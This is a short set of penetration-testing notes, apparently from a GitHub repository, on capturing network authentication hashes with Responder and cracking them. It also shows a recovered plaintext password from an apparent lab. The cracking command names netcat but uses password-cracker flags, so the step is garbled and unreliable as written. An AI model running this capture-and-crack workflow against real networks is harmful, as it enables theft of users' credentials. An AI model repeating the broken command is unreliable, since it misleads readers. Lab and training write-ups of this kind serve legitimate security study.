 # Authentication Relay 

Responder on GitHub <a href="https://github.com/lgandx/Responder">here</a>

```
sudo responder -I tun0
```

If responder cannot listen to port 389, it is probably because of SLAPD server is running. Check the current state of this port by using :
```
netstat -nat
```

Listening for events :

![image](https://user-images.githubusercontent.com/97956863/231966809-0f5612a1-11a8-4451-9be6-809306e853ed.png)

![image](https://user-images.githubusercontent.com/97956863/231971793-d49f244d-333f-4877-abca-722f998258c7.png)

Write <strong>all</strong> the hash section into a new file (example : hashfile.txt) and start netcat :

```
netcat -m 5600 hashfile.txt path/to/password/list --force
```

![image](https://user-images.githubusercontent.com/97956863/231972881-4cd97235-85f4-495e-b57b-0ec786891143.png)


Password is : FPassword1!
